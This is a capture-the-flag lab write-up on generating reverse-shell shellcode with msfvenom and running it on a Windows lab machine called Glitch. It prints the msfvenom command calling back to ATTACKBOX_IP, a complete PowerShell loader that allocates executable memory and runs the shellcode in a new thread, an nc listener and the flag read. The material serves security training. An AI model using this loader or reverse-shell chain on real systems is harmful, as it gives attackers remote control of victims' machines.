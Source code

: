 Today we learn to write and generate shellcode for reverse shells.

We are asked to read the file `flag.txt` which is present on the desktop of Glitch on port `4444` .
+ Firstly we do `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell`. Which gives us a piece of the shellcode that we will be adding to our shell script later on.
+ Now we write the powershell script, where `SHELLCODE_PLACEHOLDER` will be replaced by the series of hexadecimal numbers we just got as the output.
  ```
  $VrtAlloc = @"
  using System;
  using System.Runtime.InteropServices;
  
  public class VrtAlloc{
      [DllImport("kernel32")]
      public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
  }
  "@
  
  Add-Type $VrtAlloc 
  
  $WaitFor= @"
  using System;
  using System.Runtime.InteropServices;
  
  public class WaitFor{
   [DllImport("kernel32.dll", SetLastError=true)]
      public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
  }
  "@
  
  Add-Type $WaitFor
  
  $CrtThread= @"
  using System;
  using System.Runtime.InteropServices;
  
  public class CrtThread{
   [DllImport("kernel32", CharSet=CharSet.Ansi)]
      public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
  }
  "@
  Add-Type $CrtThread   
  
  [Byte[]] $buf = SHELLCODE_PLACEHOLDER
  [IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
  $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
  [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
  ```
+ Now we type in `nc -nvlp 4444` which will start a listener on port 4444.
+ Now we write the powershell script in `Windows Powershell` in the machine of `Glitch` line by line. After this we should get succesfull connection with `Glitch`'s machine.

  ![image](https://github.com/user-attachments/assets/ec2aa0f4-847b-40ce-94f0-98e421675dea)

  ![image](https://github.com/user-attachments/assets/0612df3f-8928-4799-9c5e-457a5d506231)

+ No we read `flag.txt` by doing `type C:\Users\glitch\Desktop\flag.txt`.

  ![image](https://github.com/user-attachments/assets/9a969740-8535-4820-ac20-93950ce73978)


  

    
